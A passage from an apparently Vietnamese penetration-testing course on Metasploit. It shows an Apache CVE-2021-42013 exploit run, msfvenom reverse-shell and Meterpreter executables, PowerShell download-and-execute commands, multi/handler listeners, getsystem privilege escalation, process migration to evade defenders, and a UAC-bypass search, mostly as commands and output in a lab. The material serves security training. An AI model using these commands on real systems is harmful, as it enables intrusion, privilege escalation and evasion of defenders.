[*] uploaded   : /usr/bin/unix-privesc-check -> /tmp//unix-privesc-check

meterpreter > ls /tmp
Listing: /tmp
=============

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
...
100644/rw-r--r--  36801    fil   2022-08-08 05:26:15 -0400  unix-privesc-check
```

                                  *Listing 42 -  Upload unix-privesc-check lên máy mục tiêu*

Listing 42 cho thấy chúng ta đã upload unix-privesc-check lên máy mục tiêu thành công. Nếu mục tiêu của chúng ta chạy hệ điều hành Windows, chúng ta cần escape các dấu gạch chéo ngược trong đường dẫn đích bằng dấu gạch chéo ngược như “\”.

Cho đến nay, chúng ta đã dùng payload `linux/x64/meterpreter_reverse_tcp` trong phần này để khám phá nhiều tính năng của Meterpreter. Trước khi chuyển sang phần tiếp theo, hãy dùng một payload Meterpreter 64-bit Linux khác. Vì vậy, chúng ta thoát khỏi session hiện tại và dùng show payloads trong ngữ cảnh của exploit module một lần nữa.

```
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.50.16 - Meterpreter session 4 closed.  Reason: User exit

msf6 exploit(multi/http/apache_normalize_path_rce) > show payloads

Compatible Payloads
===================

   #   Name                                              Disclosure Date  Rank    Check  Description
   -   ----                                              ---------------  ----    -----  -----------
   ...
   10  payload/linux/x64/meterpreter_reverse_https                        normal  No     Linux Meterpreter, Reverse HTTPS Inline
   ...
```

                                *Listing 43 - Hiển thị Meterpreter HTTPS non-staged payload*

Listing 43 cho thấy chỉ số 10 là payload/linux/x64/meterpreter_reverse_https. Thay vì một kết nối TCP thô, payload này dùng HTTPS để thiết lập kết nối và liên lạc giữa máy mục tiêu bị nhiễm và máy Kali của chúng ta. Vì lưu lượng bản thân nó được mã hóa bằng SSL/TLS, phía phòng thủ sẽ chỉ thu được thông tin về các yêu cầu HTTPS. Nếu không có thêm các kỹ thuật và công nghệ phòng thủ khác, họ sẽ khó có khả năng giải mã liên lạc của Meterpreter.

Hãy chọn payload này và hiển thị các tùy chọn của nó.

```
msf6 exploit(multi/http/apache_normalize_path_rce) > set payload 10
payload => linux/x64/meterpreter_reverse_https

msf6 exploit(multi/http/apache_normalize_path_rce) > show options

...

Payload options (linux/x64/meterpreter_reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.119.2    yes       The local listener hostname
   LPORT  4444             yes       The local listener port
   LURI                    no        The HTTP Path

...
```

                               *Listing 44 - Hiển thị Meterpreter HTTPS non-staged payload*

Listing 44 cho thấy có một tùy chọn bổ sung cho payload này tên là LURI. Tùy chọn này có thể được dùng để tận dụng một listener duy nhất trên một cổng có khả năng xử lý các yêu cầu khác nhau dựa trên path trong tùy chọn này và cung cấp sự tách biệt logic. Nếu chúng ta để trống tùy chọn này, Metasploit chỉ dùng / làm path.

Bây giờ, hãy chạy exploit module bằng cách nhập run mà không đặt giá trị cho tùy chọn LURI.

```
msf6 exploit(multi/http/apache_normalize_path_rce) > run

[*] Started HTTPS reverse handler on https://192.168.119.4:4444
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://192.168.50.16:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://192.168.50.16:80 - Attempt to exploit for CVE-2021-42013
[*] http://192.168.50.16:80 - Sending linux/x64/meterpreter_reverse_https command payload
[*] https://192.168.119.4:4444 handling request from 192.168.50.16; (UUID: qtj6ydxw) Redirecting stageless connection from /5VnUXDPXWg8tIisgT9LKKgwTqHpOmN8f7XNCTWkhcIUx8BfEHpEp4kLUgOa_JWrqyM8EB with UA 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.81 Safari/537.36 Edg/97.0.1072.69'
...
[*] https://192.168.119.4:4444 handling request from 192.168.50.16; (UUID: qtj6ydxw) Attaching orphaned/stageless session...
[*] Meterpreter session 5 opened (192.168.119.4:4444 -> 127.0.0.1) at 2022-08-08 06:12:42 -0400
[!] This exploit may require manual cleanup of '/tmp/IkXnnbYT' on the target

meterpreter > 
```

                        *Listing 45 - Hiển thị output của Meterpreter HTTPS non-staged payload*

Listing 45 cho thấy payload đã cung cấp cho chúng ta một Meterpreter session. Output hiển thị việc xử lý nhiều yêu cầu khác nhau cho đến khi Meterpreter session được thiết lập. Nếu một defender giám sát liên lạc của payload, nó trông giống như lưu lượng HTTPS thông thường. Hơn nữa, nếu họ kiểm tra địa chỉ của endpoint giao tiếp (máy Kali của chúng ta trong ví dụ này), họ sẽ chỉ nhận được một trang Not found với mã HTTP 404 trong trình duyệt.

Trong một bài penetration test, chúng ta có thể dùng payload này để cải thiện khả năng vượt qua công nghệ bảo mật và defender. Tuy nhiên, vì Metasploit là một trong những exploit framework nổi tiếng nhất, tỷ lệ phát hiện của các Meterpreter payload khá cao bởi các công nghệ bảo mật như các giải pháp antivirus. Do đó, chúng ta luôn nên cố gắng giành được foothold ban đầu bằng một TCP shell thô và sau đó triển khai một Meterpreter shell ngay khi chúng ta đã vô hiệu hóa hoặc vượt qua các công nghệ bảo mật tiềm năng. Tuy nhiên, kiểu obfuscation này nằm ngoài phạm vi của Module này.

Hãy tóm tắt những gì chúng ta đã đề cập trong phần này. Meterpreter là payload đặc trưng của Metasploit và bao gồm nhiều tính năng tuyệt vời. Trước hết, chúng ta đã thảo luận Meterpreter là gì rồi dùng một raw TCP Meterpreter payload trên WEB18. Sau đó, chúng ta làm quen với các lệnh cơ bản và khái niệm channel. Cuối cùng, chúng ta đã khám phá HTTPS Meterpreter payload và thảo luận nó khác gì so với raw TCP payload.

---

## 2.3. Payload dạng file thực thi

---

Metasploit cũng cung cấp chức năng xuất (export) payload ra nhiều loại file và định dạng khác nhau như Windows và Linux binary, webshell, và nhiều hơn nữa. Metasploit có msfvenom như một công cụ độc lập để tạo các payload này. Công cụ này cung cấp các tùy chọn dòng lệnh được tiêu chuẩn hóa và bao gồm nhiều kỹ thuật để tùy biến payload.

Để làm quen với msfvenom, trước hết chúng ta sẽ tạo một Windows binary độc hại khởi chạy một raw TCP reverse shell. Hãy bắt đầu bằng cách liệt kê tất cả payload với payloads làm đối số cho -l. Ngoài ra, chúng ta dùng --platform để chỉ định nền tảng cho payload và --arch cho kiến trúc.

```
kali@kali:~$ msfvenom -l payloads --platform windows --arch x64 

...
windows/x64/shell/reverse_tcp               Spawn a piped command shell (Windows x64) (staged). Connect back to the attacker (Windows x64)
...
windows/x64/shell_reverse_tcp               Connect back to attacker and spawn a command shell (Windows x64)
...
```

                          *Listing 46 - Tạo một Windows executable với payload reverse shell*

Listing 46 cho thấy chúng ta có thể chọn giữa một staged và một non-staged payload. Trong ví dụ này, chúng ta sẽ dùng non-staged payload trước.

Bây giờ, hãy dùng cờ -p để thiết lập payload, đặt LHOST và LPORT để gán host và port cho kết nối reverse, -f để đặt định dạng output (exe trong trường hợp này), và -o để chỉ định tên file output:

```
kali@kali:~$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: nonstaged.exe
```

               *Listing 47 - Tạo một Windows executable với non-staged TCP reverse shell payload*

Bây giờ, khi chúng ta đã tạo file binary độc hại, hãy sử dụng nó. Để làm điều này, chúng ta khởi động một Netcat listener trên cổng 443, Python3 web server trên cổng 80, và kết nối tới BRUTE2 qua RDP với user justin và mật khẩu SuperS3cure1337#. Sau khi đã kết nối qua RDP, chúng ta có thể khởi chạy PowerShell để chuyển file và thực thi nó.

```
PS C:\Users\justin> iwr -uri http://192.168.119.2/nonstaged.exe -Outfile nonstaged.exe

PS C:\Users\justin> .\nonstaged.exe
```

                                   *Listing 48 - Tải binary non-staged payload và thực thi nó*

Khi chúng ta thực thi file binary, chúng ta sẽ nhận được một reverse shell đi vào trên Netcat listener.

```
kali@kali:~$ nc -nvlp 443 
listening on [any] 443 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.202] 50822
Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Users\justin>
```

                                     *Listing 49 - Reverse shell đi vào từ non-staged Windows binary*

Bây giờ, hãy dùng một staged payload để làm điều tương tự. Để làm điều này, chúng ta sẽ lại dùng msfvenom để tạo một Windows binary với staged TCP reverse shell payload.

```
kali@kali:~$ msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o staged.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: staged.exe
```

                    *Listing 50 - Tạo một Windows executable với staged TCP reverse shell payload*

Chúng ta sẽ lặp lại các bước từ Listing 48 để tải và thực thi staged.exe và sẽ khởi động Netcat listener lại.

```
kali@kali:~$ nc -nvlp 443                                                                                
listening on [any] 443 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.202] 50832
whoami
```

                                    *Listing 51 - Reverse shell đi vào từ staged Windows binary*

Mặc dù chúng ta nhận được một kết nối đi vào, chúng ta không thể thực thi bất kỳ lệnh nào thông qua nó. Điều này là vì Netcat không biết cách xử lý một staged payload.

Để có được một command prompt tương tác hoạt động bình thường, chúng ta có thể dùng module multi/handler2 của Metasploit, module này hoạt động cho phần lớn staged, non-staged, và các payload nâng cao hơn. Hãy dùng module này để nhận kết nối đi vào từ staged.exe.

Trong Metasploit, hãy chọn module bằng use. Sau đó, chúng ta phải chỉ định payload của kết nối đi vào. Trong trường hợp của chúng ta, đó là windows/x64/shell/reverse_tcp. Ngoài ra, chúng ta phải đặt các tùy chọn cho payload. Chúng ta nhập địa chỉ IP của máy Kali làm đối số cho LHOST và cổng 443 làm đối số cho LPORT. Cuối cùng, chúng ta có thể nhập run để chạy module và thiết lập listener.

```
msf6 exploit(multi/http/apache_normalize_path_rce) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp

msf6 exploit(multi/handler) > show options
...
Payload options (windows/x64/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
...

msf6 exploit(multi/handler) > set LHOST 192.168.119.2
LHOST => 192.168.119.2
msf6 exploit(multi/handler) > set LPORT 443

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.119.2:443 
```

                        *Listing 52 - Thiết lập payload và options cho multi/handler và chạy nó*

Khi listener của chúng ta đang chạy trên cổng 443, chúng ta có thể chạy staged.exe lại trên BRUTE2. Metasploit multi/handler của chúng ta nhận staged payload đi vào và cung cấp cho chúng ta một reverse shell tương tác trong ngữ cảnh của một session.

```
[*] Started reverse TCP handler on 192.168.119.2:443 
[*] Sending stage (336 bytes) to 192.168.50.202
[*] Command shell session 6 opened (192.168.119.2:443 -> 192.168.50.202:50838) at 2022-08-01 10:18:13 -0400

Shell Banner:
Microsoft Windows [Version 10.0.20348.169]
-----
          

C:\Users\justin> whoami
whoami
brute2\justin
```

                      *Listing 53 - Reverse shell đi vào từ Windows binary với staged payload*

Tuyệt! Chúng ta đã nhận được staged reverse shell và Metasploit đã khởi tạo một session cho chúng ta sử dụng. Với staged và các loại payload nâng cao khác (như Meterpreter), chúng ta phải dùng multi/handler thay vì các công cụ như Netcat để payload có thể hoạt động.

Việc dùng run mà không có đối số nào sẽ chặn command prompt cho đến khi việc thực thi kết thúc hoặc chúng ta đưa session xuống nền. Như đã học trước đó, chúng ta có thể dùng run -j để khởi động listener ở chế độ nền, cho phép chúng ta tiếp tục các công việc khác trong khi chờ kết nối. Chúng ta có thể dùng lệnh jobs để lấy danh sách tất cả các job hiện đang hoạt động, chẳng hạn như các listener đang chờ kết nối.

Hãy thoát khỏi session của chúng ta và khởi động lại listener với run -j. Sau đó, chúng ta sẽ liệt kê các job hiện đang hoạt động bằng jobs. Khi chúng ta thực thi staged.exe lại, Metasploit sẽ thông báo rằng một session mới đã được tạo.

```
C:\Users\justin> exit
exit

[*] 192.168.50.202 - Command shell session 6 closed.  Reason: User exit
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.119.2:443 

msf6 exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                        Payload opts
  --  ----                    -------                        ------------
  1   Exploit: multi/handler  windows/x64/shell/reverse_tcp  tcp://192.168.119.2:443

msf6 exploit(multi/handler) > 
[*] Sending stage (336 bytes) to 192.168.50.202
[*] Command shell session 7 opened (192.168.119.2:443 -> 192.168.50.202:50839) at 2022-08-01 10:26:02 -0400
```

                      *Listing 54 - Reverse shell đi vào từ Windows binary với staged payload*

Vì Metasploit đã tạo một session mới cho kết nối đi vào, bây giờ chúng ta có thể tương tác lại với nó bằng sessions -i và session ID làm đối số.

Chúng ta có thể dùng các executable payload được tạo bởi msfvenom trong nhiều tình huống khác nhau trong một bài penetration test. Trước hết, chúng ta có thể dùng chúng để tạo các loại file thực thi như PowerShell script, Windows executable, hoặc Linux executable file để chuyển chúng tới mục tiêu và khởi động một reverse shell. Tiếp theo, chúng ta có thể tạo các file độc hại như web shell để khai thác các lỗ hổng web application. Cuối cùng, chúng ta cũng có thể dùng các file được tạo từ msfvenom như một phần của một client-side attack.

Trong phần này, chúng ta đã khám phá các executable payload được tạo bởi msfvenom. Chúng ta đã làm quen với cách dùng msfvenom để tạo các file thực thi chứa các payload này và cách thiết lập multi/handler làm listener cho cả staged và non-staged payload. Việc dùng msfvenom để tạo các file thực thi với nhiều payload và nhiều loại file sẽ hỗ trợ chúng ta rất nhiều trong các bài penetration test.

---

# 3. Thực hiện Post-Exploitation với Metasploit

---

Learning Unit này bao gồm các Learning Objective sau:

- Sử dụng các tính năng post-exploitation cốt lõi của Meterpreter
- Sử dụng các post-exploitation module
- Thực hiện pivoting với Metasploit

Khi chúng ta đã giành được quyền truy cập vào một máy mục tiêu, chúng ta có thể chuyển sang giai đoạn post-exploitation, nơi chúng ta thu thập thông tin, thực hiện các bước để duy trì quyền truy cập, pivot sang các máy khác, leo thang đặc quyền, và các hoạt động khác.

Metasploit Framework có một số tính năng post-exploitation rất hữu ích, giúp đơn giản hóa nhiều khía cạnh của quá trình này. Ngoài các lệnh Meterpreter được tích hợp sẵn, còn có nhiều post-exploitation module của MSF nhận một session đang hoạt động làm đối số và thực hiện các thao tác post-exploitation trên session đó.

Trong Learning Unit này, chúng ta sẽ khám phá các tính năng và module post-exploitation này. Chúng ta cũng sẽ thực hiện pivoting với các module của Metasploit Framework.

---

## 3.1. Các tính năng Post-Exploitation cốt lõi của Meterpreter

---

Trong các phần trước, chúng ta đã sử dụng payload Meterpreter để điều hướng hệ thống tập tin, thu thập thông tin về hệ thống mục tiêu, và truyền tập tin đến và đi từ máy. Ngoài các lệnh đã sử dụng, Meterpreter còn chứa rất nhiều tính năng post-exploitation.

Hãy cùng khám phá một số tính năng này. Cần lưu ý rằng payload Meterpreter trên Linux chứa ít tính năng post-exploitation hơn so với Windows. Do đó, chúng ta sẽ khám phá các tính năng này trên mục tiêu Windows ITWK01. Giả sử rằng chúng ta đã giành được quyền truy cập ban đầu (initial foothold) trên hệ thống mục tiêu và triển khai một bind shell như một phương thức truy cập hệ thống.

Để bắt đầu, chúng ta sẽ tạo một file nhị phân thực thi cho Windows bằng msfvenom, chứa payload Meterpreter dạng non-staged, và đặt tên là met.exe.

```
kali@kali:~$ msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.119.4 LPORT=443 -f exe -o met.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201820 bytes
Final size of exe file: 208384 bytes
Saved as: met.exe
```

                 *Listing 55 - Tạo một executable Windows với payload Meterpreter reverse shell*

Sau khi thiết lập payload và các tùy chọn của nó, chúng ta khởi chạy module multi/handler đã được kích hoạt trước đó trong Metasploit.

```
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_https
payload => windows/x64/meterpreter_reverse_https

msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443

msf6 exploit(multi/handler) > run
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

[*] Started HTTPS reverse handler on https://192.168.119.4:443
```

                                    *Listing 56 - Thiết lập tùy chọn và khởi động multi/handler*

Tiếp theo, chúng ta khởi chạy một web server Python3 để phân phối met.exe. Sau đó, chúng ta kết nối tới bind shell trên cổng 4444 của ITWK01. Khi đã kết nối, chúng ta có thể tải met.exe bằng PowerShell và thực thi file nhị phân Windows này.

```
kali@kali:~$ nc 192.168.50.223 4444
Microsoft Windows [Version 10.0.22000.795]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dave> powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\dave> iwr -uri http://192.168.119.2/met.exe -Outfile met.exe
iwr -uri http://192.168.119.2/met.exe -Outfile met.exe

PS C:\Users\dave> .\met.exe
.\met.exe

PS C:\Users\dave>
```

                         *Listing 57 - Kết nối tới CLIENTWK220 và thực thi met.exe sau khi tải về*

Khi file nhị phân Windows được thực thi, Metasploit thông báo rằng nó đã mở một session mới.

```
[*] Started HTTPS reverse handler on https://192.168.119.4:443
[*] https://192.168.119.4:443 handling request from 192.168.50.223; (UUID: vu4ouwcd) Redirecting stageless connection from /tiUQIXcIFB-TCZIL8eIxGgBxevpyuKwxxXiCTUKLb with UA 'Mozilla/5.0 (Macintosh; Intel Mac OS X 12.2; rv:97.0) Gecko/20100101 Firefox/97.0'
[*] https://192.168.119.4:443 handling request from 192.168.50.223; (UUID: vu4ouwcd) Attaching orphaned/stageless session...
[*] Meterpreter session 8 opened (192.168.119.4:443 -> 127.0.0.1) at 2022-08-04 06:41:29 -0400

meterpreter > 
```

                                                      *Listing 58 - Reverse shell đến từ met.exe*

Bây giờ khi chúng ta đã có một Meterpreter session đang hoạt động trên mục tiêu Windows, chúng ta có thể bắt đầu khám phá các lệnh và tính năng post-exploitation.

Lệnh post-exploitation đầu tiên chúng ta sử dụng là **idletime**. Lệnh này hiển thị khoảng thời gian mà người dùng không tương tác với hệ thống. Sau khi thu thập thông tin cơ bản về người dùng hiện tại và hệ điều hành, đây nên là một trong những lệnh đầu tiên được sử dụng vì nó cho biết máy mục tiêu hiện có đang được sử dụng hay không.

```
meterpreter > idletime
User has been idle for: 9 mins 53 secs
```

                                        *Listing 59 - Hiển thị thời gian idle của người dùng hiện tại*

Kết quả cho thấy người dùng đã không tương tác với hệ thống trong 9 phút 53 giây, cho thấy có thể người dùng đã rời khỏi máy tính. Nếu kết quả của lệnh idletime cho thấy người dùng đang vắng mặt, chúng ta có thể tận dụng cơ hội này để thực thi các chương trình hoặc lệnh có thể hiển thị cửa sổ dòng lệnh như CMD hoặc PowerShell trong một khoảng thời gian ngắn.

Đối với một số tính năng post-exploitation, chúng ta cần quyền quản trị để thực thi. Metasploit cung cấp lệnh **getsystem**, lệnh này cố gắng tự động nâng quyền của chúng ta lên **NT AUTHORITY\SYSTEM**. Nó sử dụng nhiều kỹ thuật khác nhau dựa trên named pipe impersonation và token duplication. Với cấu hình mặc định, getsystem sử dụng tất cả các kỹ thuật có sẵn (được hiển thị trong menu trợ giúp) nhằm khai thác **SeImpersonatePrivilege** và **SeDebugPrivilege**.

Trước khi thực thi getsystem, chúng ta sẽ khởi chạy một interactive shell và xác nhận rằng người dùng của chúng ta có một trong hai privilege này được gán hay không.

```
meterpreter > shell
...

C:\Users\luiza> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
...
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
...

C:\Users\luiza> exit
exit
```

              *Listing 60 - Hiển thị các privilege được gán cho người dùng trong interactive shell*

Listing 60 cho thấy người dùng **luiza** có privilege **SeImpersonatePrivilege** được gán. Bây giờ, hãy sử dụng getsystem để cố gắng nâng quyền.

```
meterpreter > getuid
Server username: ITWK01\luiza

meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

                                                        *Listing 61 - Nâng quyền với getsystem*

Listing 61 cho thấy getsystem đã nâng quyền thành công lên **NT AUTHORITY\SYSTEM** bằng cách sử dụng Named Pipe Impersonation (PrintSpooler variant), tương tự như những gì chúng ta đã thực hiện thủ công trong Module Windows Privilege Escalation.

Một tính năng post-exploitation quan trọng khác là **migrate**. Khi chúng ta xâm nhập một host, payload Meterpreter được thực thi bên trong process của ứng dụng mà chúng ta tấn công hoặc process thực thi payload. Nếu nạn nhân đóng process đó, quyền truy cập của chúng ta vào máy cũng sẽ bị đóng. Ngoài ra, tùy thuộc vào tên của file nhị phân Windows chứa payload Meterpreter, tên process có thể trông đáng ngờ nếu defender đang rà soát danh sách process. Chúng ta có thể sử dụng migrate để chuyển việc thực thi payload Meterpreter sang một process khác.

Hãy xem tất cả các process đang chạy bằng cách nhập **ps** tại dấu nhắc lệnh Meterpreter.

```
meterpreter > ps

Process List
============

 PID   PPID  Name                         Arch  Session  User                          Path
 ---   ----  ----                         ----  -------  ----                          ----
 2552   8500  met.exe                      x64   0        ITWK01\luiza                  C:\Users\luiza\met.exe 
... 
 8052   4892  OneDrive.exe                 x64   1        ITWK01\offsec                 C:\Users\offsec\AppData\Local\Microsoft\OneDrive\OneDrive.exe
...
```

                                         *Listing 62 - Hiển thị danh sách các process đang chạy*

Listing 62 cho thấy process **met.exe** có PID là 2552. Tên và đường dẫn của nó sẽ rất dễ bị phát hiện bởi defender khi rà soát danh sách process. Kết quả cũng cho thấy người dùng **offsec** đã khởi chạy một process liên quan đến OneDrive với PID 8052. Nếu payload của chúng ta chạy trong process này, khả năng bị phát hiện khi xem danh sách process sẽ thấp hơn nhiều.

Cần lưu ý rằng chúng ta chỉ có thể migrate vào các process đang chạy ở cùng mức integrity hoặc thấp hơn so với process hiện tại của chúng ta. Trong bối cảnh ví dụ này, chúng ta đã nâng quyền lên **NT AUTHORITY\SYSTEM**, do đó chúng ta có rất nhiều lựa chọn.

Hãy migrate process hiện tại sang **OneDrive.exe** của người dùng offsec bằng cách nhập migrate và PID của process đích.

```
meterpreter > migrate 8052
[*] Migrating from 2552 to 8052...
[*] Migration completed successfully.

meterpreter > ps

Process List
============

 PID   PPID  Name                         Arch  Session  User                Path
 ---   ----  ----                         ----  -------  ----                ----
...
 2440   668   svchost.exe
 2472   668   svchost.exe
 2496   668   svchost.exe
 2568   668   svchost.exe
 2624   668   spoolsv.exe
 2660   668   svchost.exe
 2784   668   svchost.exe
 2928   668   svchost.exe
...
```

                                             *Listing 63 - Migrate sang process explorer.exe*

Listing 63 cho thấy chúng ta đã migrate thành công sang process OneDrive. Khi rà soát danh sách process, chúng ta sẽ thấy process ban đầu **met.exe** với PID 2552 không còn tồn tại. Ngoài ra, chúng ta sẽ nhận thấy rằng đầu ra của ps chứa ít thông tin hơn trước. Nguyên nhân là do chúng ta hiện đang chạy trong ngữ cảnh của process có PID 8052 và do đó là người dùng **offsec**.

```
meterpreter > getuid
Server username: ITWK01\offsec
```

            *Listing 64 - Thực thi lệnh với quyền người dùng offsec thay vì NT AUTHORITY\SYSTEM*

Thay vì migrate vào một process đang tồn tại, hoặc trong trường hợp không tìm được process phù hợp để migrate, chúng ta có thể sử dụng lệnh **execute** của Meterpreter. Lệnh này cho phép tạo một process mới bằng cách chỉ định một lệnh hoặc chương trình.

Để minh họa, chúng ta sẽ khởi chạy một process Notepad ẩn và migrate vào đó với tư cách người dùng offsec. Để làm điều này, chúng ta sử dụng execute với tùy chọn **-H** để tạo process ở chế độ ẩn, và **notepad** làm đối số cho **-f** để chỉ định chương trình cần chạy. Sau đó, chúng ta migrate vào process vừa được tạo.

```
meterpreter > execute -H -f notepad
Process 2720 created.

meterpreter > migrate 2720
[*] Migrating from 8052 to 2720...
[*] Migration completed successfully.

meterpreter > 
```

                                  *Listing 65 - Migrate sang process Notepad vừa được khởi tạo*

Listing 65 cho thấy cách chúng ta migrate sang process Notepad vừa được tạo. Vì chúng ta sử dụng tùy chọn **-H**, process Notepad được khởi chạy mà không có bất kỳ hiển thị trực quan nào. Tuy nhiên, process này vẫn xuất hiện trong danh sách process của các ứng dụng như Task Manager.

Phần này kết thúc tại đây. Chúng ta đã khám phá một số tính năng post-exploitation của Meterpreter. Đầu tiên, chúng ta sử dụng idletime để kiểm tra xem người dùng có đang làm việc tích cực trên hệ thống mục tiêu hay không. Tiếp theo, chúng ta nâng quyền với sự trợ giúp của getsystem. Cuối cùng, chúng ta sử dụng migrate để chuyển việc thực thi payload Meterpreter sang một process khác.

Meterpreter cung cấp nhiều module post-exploitation thú vị khác như **hashdump**, dùng để dump nội dung của cơ sở dữ liệu SAM, hoặc **screenshare**, dùng để hiển thị desktop của máy mục tiêu theo thời gian thực.

Mặc dù các tính năng Meterpreter này rất mạnh, Metasploit còn chứa rất nhiều module post-exploitation mở rộng các tính năng cơ bản mà chúng ta đã khám phá trong phần này. Chúng ta sẽ xem xét và sử dụng một số module đó trong phần tiếp theo.

---

## 3.2. Các module Post-Exploitation

---

Ngoài các lệnh và hành động native trong các chức năng cốt lõi của Meterpreter, có một số module post-exploitation mà chúng ta có thể triển khai chống lại một session đang hoạt động.

Các session được tạo ra thông qua các vector tấn công như thực thi một client-side attack rất có thể chỉ cung cấp cho chúng ta một unprivileged shell. Nhưng nếu người dùng mục tiêu là thành viên của nhóm local administrators, chúng ta có thể nâng shell lên mức high integrity nếu có thể bypass User Account Control (UAC).

Trong phần trước, chúng ta đã migrate Meterpreter shell sang một process OneDrive.exe đang chạy ở (giả định) mức integrity trung bình. Với phần này, hãy lặp lại các bước từ phần trước và sau đó bypass UAC bằng một module post-exploitation của Metasploit để có được một session trong ngữ cảnh của một process có integrity level cao.

Như trước, chúng ta kết nối tới bind shell trên cổng 4444 của ITWK01, tải và thực thi met.exe, và nhập `getsystem` để nâng quyền. Sau đó, chúng ta dùng ps để xác định process ID của OneDrive.exe và migrate sang nó.

```
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).

meterpreter > ps

Process List
============

 PID    PPID  Name                         Arch  Session  User                          Path
 ---    ----  ----                         ----  -------  ----                          ----
...
 8044   3912  OneDrive.exe                 x64   1        ITWK01\offsec                 C:\Users\offsec\AppData\Local\Microsoft\OneDrive\OneDrive.exe
...

meterpreter > migrate 8044
[*] Migrating from 9020 to 8044...
[*] Migration completed successfully.

meterpreter > getuid
Server username: ITWK01\offsec
```

                            *Listing 66 - Migrate sang process OneDrive của người dùng offsec*

Listing 66 cho thấy chúng ta hiện đang chạy trong ngữ cảnh của offsec trở lại. Mặc dù đây là một tài khoản quản trị, UAC ngăn chúng ta thực hiện các thao tác quản trị như chúng ta đã học trong các Module trước. Trước khi cố gắng bypass UAC, hãy xác nhận rằng process hiện tại có integrity level là Medium.

Để hiển thị integrity level của một process, chúng ta có thể dùng các công cụ như Process Explorer hoặc các module PowerShell bên thứ ba như `NtObjectManager`. Giả sử rằng công cụ thứ hai đã được cài sẵn trên hệ thống.

Khi import module bằng Import-Module, chúng ta có thể dùng `Get-NtTokenIntegrityLevel` để hiển thị integrity level của process hiện tại bằng cách lấy và xem xét access token được gán.

```
meterpreter > shell
Process 6436 created.
Channel 1 created.
Microsoft Windows [Version 10.0.22000.795]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> powershell -ep bypass
powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> Import-Module NtObjectManager
Import-Module NtObjectManager

PS C:\Windows\system32> Get-NtTokenIntegrityLevel
Get-NtTokenIntegrityLevel
Medium
```

                                                             *Listing 67 - Xem xét integrity level*

Listing 67 cho thấy rằng chúng ta hiện đang thực hiện các thao tác trong ngữ cảnh integrity level Medium.

Tiếp theo, hãy đưa channel và session hiện đang hoạt động về background để tìm kiếm và tận dụng các module post-exploitation bypass UAC.

```
PS C:\Windows\system32> ^Z
Background channel 1? [y/N]  y

meterpreter > bg
[*] Backgrounding session 9...
```

                                                  *Listing 68 - Background channel và session*

Bây giờ, hãy tìm các module bypass UAC.

```
msf6 exploit(multi/handler) > search UAC

Matching Modules
================

   #   Name                                                   Disclosure Date  Rank       Check  Description
   -   ----                                                   ---------------  ----       -----  -----------
-   ----                                                   ---------------  ----       -----  -----------
   0   post/windows/manage/sticky_keys                                         normal     No     Sticky Keys Persistance Module
   1   exploit/windows/local/cve_2022_26904_superprofile      2022-03-17       excellent  Yes    User Profile Arbitrary Junction Creation Local Privilege Elevation
   2   exploit/windows/local/bypassuac_windows_store_filesys  2019-08-22       manual     Yes    Windows 10 UAC Protection Bypass Via Windows Store (WSReset.exe)
   3   exploit/windows/local/bypassuac_windows_store_reg      2019-02-19       manual     Yes    Windows 10 UAC Protection Bypass Via Windows Store (WSReset.exe) and Registry
   ...
   11  exploit/windows/local/bypassuac_sdclt                  2017-03-17       excellent  Yes    Windows Escalate UAC Protection Bypass (Via Shell Open Registry Key)
